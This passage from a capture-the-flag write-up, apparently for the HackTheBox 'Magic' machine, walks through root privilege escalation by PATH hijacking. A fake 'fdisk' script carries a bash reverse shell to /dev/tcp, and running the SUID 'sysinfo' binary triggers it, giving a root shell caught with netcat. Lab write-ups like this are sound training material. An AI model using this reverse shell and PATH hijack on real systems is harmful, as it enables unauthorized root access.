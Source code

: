 Since a full path is not used, it is up to the OS to resolve what executable is used. This is the main use of the PATH variable. The OS looks for the executable in each directory listed in path.

We can abuse this coupled with the fact that we can add a path to present a phony executable for “fdisk”

---

#Root Privesc
From here on, we can create an executable with the name “fdisk”. In our case this executable will create a reverse shell.

```
theseus@ubuntu:/var/tmp$ cat fdisk
#!/bin/bash
nohup bash -c 'bash -i >& /dev/tcp/<ip address>/<port> 0>&1'
theseus@ubuntu:/var/tmp$ chmod +x fdisk
```

Then we manipulate the path to include the directory that contains the phony “fdisk”. In this case append “/var/tmp” to the path.

```
theseus@ubuntu:/var/tmp$ which fdisk
/sbin/fdisk
theseus@ubuntu:/var/tmp$ export PATH=$(pwd):$PATH
theseus@ubuntu:/var/tmp$ which fdisk
/var/tmp/fdisk
```

All that is left is to execute “sysinfo” and then get a shell.

```
theseus@ubuntu:/var/tmp$ sysinfo
====================Hardware Info====================
H/W path           Device      Class      Description
=====================================================
                               system     VMware Virtual Platform
/0                             bus        440BX Desktop Reference Platform
/0/0                           memory     86KiB BIOS
/0/1                           processor  AMD EPYC 7401P 24-Core Processor
/0/1/0                         memory     16KiB L1 cache
/0/1/1                         memory     16KiB L1 cache
/0/1/2                         memory     512KiB L2 cache
...
```

Boom, we have another shell.

```
kali@kali:~/HTB/Magic$ nc -lvnp 1337
listening on [any] 1337 ...
connect to [10.10.14.5] from (UNKNOWN) [10.10.10.185] 33876
root@ubuntu:/var/tmp#
root@ubuntu:/var/tmp# ls -al /root
ls -al /root
total 44
drwx------  5 root root 4096 Apr 16 00:23 .
drwxr-xr-x 24 root root 4096 Mar 20 15:27 ..
lrwxrwxrwx  1 root root    9 Oct 21  2019 .bash_history -> /dev/null
-rw-r--r--  1 root root   15 Oct 21  2019 .bash_profile
-rw-r--r--  1 root root 3106 Apr  9  2018 .bashrc
drwx------  2 root root 4096 Oct 21  2019 .cache
drwx------  3 root root 4096 Oct 21  2019 .gnupg
-r--------  1 root root 1085 Oct 21  2019 info.c
drwxr-xr-x  3 root root 4096 Oct 21  2019 .local
-rw-------  1 root root   18 Mar 17 08:57 .mysql_history
-r--------  1 root root   33 Aug 21 20:23 root.txt
-rw-r--r--  1 root root   66 Apr 16 00:24 .selected_editor
```